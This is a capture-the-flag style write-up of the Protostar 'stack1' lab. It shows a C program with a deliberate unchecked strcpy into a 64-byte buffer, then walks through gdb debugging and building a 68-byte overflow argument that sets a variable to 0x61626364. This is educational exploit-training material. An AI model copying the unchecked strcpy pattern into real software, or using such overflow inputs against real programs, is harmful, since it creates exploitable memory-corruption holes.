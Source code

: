## Protostar exercises - [stack1](https://exploit-exercises.lains.space/protostar/stack1/)

#### About
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
Protostar is little endian

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

#### Procedure:

Similar to the previous one, the value of 'modified' variable needs to be changed. But here, it need to be changed to a specific value.

There is no `gets` call in this program. Instead, `strcpy` is used to copy the argument into buffer. 

##### Vulnerability:

`strcpy` is used to copy a string. if the destination string of a `strcpy()` is not large enough, then buffer overflow happens. We can use this to overflow the 64 bit buffer and write into the memory address where 'modified' is stored.

##### Disassembly:

![disassembly](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack1/disassembly.PNG)

We can see that 'modified' variable is at $esp+0x5c. Lets put breakpoints before and after `strcpy` and create hooks

```
break *0x080484a2
break *0x080484a7
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```

Lets run with argument AAAAAAAA
```
r AAAAAAAA
```

We can see that addresses 0xbffff75c and 0xbffff760 are overwritten with A's. Also, 'modified' is stored at 0xbffff79c and has value of 0x00000000

![registers](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack1/registers.PNG)

We need to overwrite from 0xbffff75c to 0xbffff79c. That is 40 + 4 words (68 bytes)
Lets create a string of 68 bytes and make sure variable is overwritten
` r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII`

![overwrite](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack1/overwrite.PNG)

We can see that 0xbffff79c now has a value of 0x49494949 or IIII

Now we need to change I's in string to 0x61626364 (abcd)
Lets run with this argument 
`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHabcd`

![try](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack1/try.PNG)

Now we can see that 'modified' is changed to 0x64636261. This is because prostar is little endian (as mentioned in hints). Lets reverse abcd to dcba and try

`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHdcba`

![done](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack1/done.PNG)

Now, the variable has 0x61626364 and the program has passed
